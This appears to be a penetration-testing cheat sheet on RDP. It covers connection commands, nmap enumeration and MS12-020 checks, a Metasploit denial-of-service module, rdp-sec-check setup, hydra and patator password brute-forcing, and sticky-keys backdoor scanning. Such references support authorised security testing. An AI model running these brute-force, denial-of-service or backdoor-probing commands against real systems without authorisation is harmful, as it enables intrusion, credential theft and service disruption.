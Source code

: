 # RDP

### remote connect

{% hint style="info" %}
#### remember when you access an active RDP session the current user will be kicked off
{% endhint %}

remote desktop connection from linux

```text
rdesktop -u [user] [domain or ip]
xfreerdp /u:"[user]" /v:[ip]:[port]
```

### nmap

```text
nmap -Pn -n 127.0.0.1 --script rdp-enum-encryption
nmap -Pn -n 127.0.0.1 --script rdp-ntlm-info
nmap -Pn -n 127.0.0.1 --script rdp-vuln-ms12-020
```

### metasploit modules

```text
use auxiliary/scanner/rdp/ms12_020_check
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

### rdp-sec-check

checks which encryption algorithms and authentication methods are used, as well as some other security settings. At the end of the check, rdp-sec-check summarizes the potential security issues of the Remote Desktop Service.

```text
sudo cpan
install Encoding::BER
Ctrl+d
wget https://raw.githubusercontent.com/portcullislabs/rdp-sec-check/master/rdp-sec-check.pl
chmod +x rdp-sec-check.pl
./rdp-sec-check.pl --help
```

### brute force

```text
patator rdp_login host=192.168.0.101 user=FILE0 password=FILE1 0=user.txt 1=passwords.txt
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.102
```

### Man-in-the-middle attack on RDP

Responder is a comprehensive tool for performing a man-in-the-middle attack against Windows authentication methods. Among other rogue servers , the program has an RDP server.

#### for more info refer to [windows authentication hacking](https://miloserdov.org/?p=4055)

### Sticky-keys & Utilman

sticky-keys-hunter is a script for testing RDP hosts on sticky keys and utilman backdoor.

```text
sticky-keys-hunter TARGET_IP
```



